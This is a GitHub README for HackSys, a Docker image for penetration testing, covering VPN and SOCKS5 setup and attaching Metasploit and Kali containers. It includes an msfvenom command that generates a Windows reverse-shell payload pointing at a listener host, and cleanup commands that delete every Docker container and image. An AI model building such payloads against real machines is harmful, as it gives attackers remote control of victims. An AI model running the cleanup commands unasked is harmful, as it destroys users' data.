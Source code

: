 [![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/antfie/HackSys/blob/master/LICENSE)

# HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* 3.59GB
* Zsh
* Lightweight with several security tools installed
* Development tools installed: Python, Go
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Replace `antfie.ovpn` with your openVPN configuration file and run the main VPN container with this:

```
docker run -it --rm -v $PWD/antfie.ovpn:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint ssh-proxy antfie/hacksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Building

First update your images. Feel free to omit metasploit and/or kali if not desired:

```
docker pull alpine
docker pull metasploitframework/metasploit-framework
docker pull kalilinux/kali-rolling
```

Then build:

```
docker build -t antfie/hacksys .
```

## Docker Maintenance

Remove all containers and images:

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```
